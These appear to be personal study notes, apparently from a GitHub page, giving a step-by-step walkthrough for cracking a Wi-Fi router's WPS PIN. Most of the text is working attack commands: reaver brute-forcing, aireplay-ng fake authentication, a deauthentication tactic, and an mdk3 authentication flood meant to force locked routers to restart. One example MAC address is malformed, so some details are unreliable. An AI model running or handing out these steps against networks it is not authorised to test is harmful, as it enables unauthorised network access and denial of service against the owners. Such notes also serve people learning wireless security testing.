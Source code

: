 # WPS is a feature found in both WPA and WPA2
- allows client to connect without password
- authentication is done with an 8 digit number
- Only works if PBC (push button authentication) is not enabled
# How to crack WPS:
- wash --interface wlan0 or wash -i wlan0
   - Lck - Means if WPS is locked after a certain number of attempts
   - WPS - version of WPS
   - dBm - Signal strength
- If the target network is using OBC this attack will not work because it reuires you to physically push a button on the router
- Brute force the pin
   - reaver --bssid 00:1A:70:70:69:4B -channel 1 --interface wlan0 -vvv -no-associated
      - vvv will show us as much information as possible (for troubleshooting)
      - We do not want reaver to associate with the network. We will do this with aireplay-ng as that is more reliable
- aireplay-ng --fakeauth 30 -a 00:1A:70:70:69:4B -h 00:11:22:33:44:55:66 wlan0
   - 30 means we try to associated with the network every 30 seconds
   - -h = MAC address of our wireless adaptor
- After reaver cracks the pin. You will get the pin, the WPA passphrase and the name of the AP.

# Troubleshoot:
- If you get the message “Failed to associate with...”
   - you need to manually associate with aireplay-ng
      - aireplay-ng --fakeauth 100 -a 00:1A:70:70:69:4B -h 00:11:22:33:44:55:66 wlan0
         - 100 means to wait 100 seconds between association attempts
   - Then in another window run reaver again
      - reaver --bssid 00:1A:70:70:69:4B -channel 1 -i wlan0 -A -vvv
         - -A means do not associate with network
- If you get 0x3 & 0x4 errors (WPS transaction failed)
   - reaver --bssid 00:1A:70:70:69:4B -channel 1 -i wlan0 -A -vvv --no-nacks
- Detected AP rate limiting | WPS Locked
   - You can deauth all of the users and “hope” the user thinks something is wrong with router and it restarts it
   - You can wait until the router gets restarted by owner
   - Use MDK3 to remotely unlock locked routers
      - This will send many authentication frames to an AP. This will overwhelm the AP and cause it to restart
      - mdk3 wlan0 a -a 00:1A:70:70:69:4B -m 
         - a = attack mode, authentication dos
         - -a is the MAC of target network
         - -m is to create valid looking MAC addresses
      - wash -i wlan0
         - check if the router was unlocked


